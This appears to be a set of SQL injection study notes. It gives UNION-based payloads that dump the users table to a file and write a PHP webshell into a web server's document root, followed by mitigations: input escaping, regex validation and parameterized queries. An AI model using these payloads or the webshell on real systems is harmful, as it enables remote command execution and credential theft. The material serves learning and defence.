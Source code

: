 #### SELECT INTO OUTFILE
```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

##### Webshell

```sql
cn' union select "",'<?php system($_REQUEST["cmd"]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

# Mitigations

## Input Sanitization
```php
```php
<SNIP>
$username = mysqli_real_escape_string($conn, $_POST['username']);
$password = mysqli_real_escape_string($conn, $_POST['password']);

$query = "SELECT * FROM logins WHERE username='". $username. "' AND password = '" . $password . "';" ;
echo "Executing query: " . $query . "<br /><br />";
<SNIP>
``````

## Input Validation
```php
<SNIP>
$pattern = "/^[A-Za-z\s]+$/";
$code = $_GET["port_code"];

if(!preg_match($pattern, $code)) {
  die("</table></div><p style='font-size: 15px;'>Invalid input! Please try again.</p>");
}

$q = "Select * from ports where port_code ilike '%" . $code . "%'";
<SNIP>
```

## Parameterized Queries
The query is modified to contain two placeholders, marked with `?` where the username and password will be placed. We then bind the username and password to the query using the [mysqli_stmt_bind_param()](https://www.php.net/manual/en/mysqli-stmt.bind-param.php) function. This will safely escape any quotes and place the values in the query.
```php
<SNIP>
  $username = $_POST['username'];
  $password = $_POST['password'];

  $query = "SELECT * FROM logins WHERE username=? AND password = ?" ;
  $stmt = mysqli_prepare($conn, $query);
  mysqli_stmt_bind_param($stmt, 'ss', $username, $password);
  mysqli_stmt_execute($stmt);
  $result = mysqli_stmt_get_result($stmt);

  $row = mysqli_fetch_array($result);
  mysqli_stmt_close($stmt);
```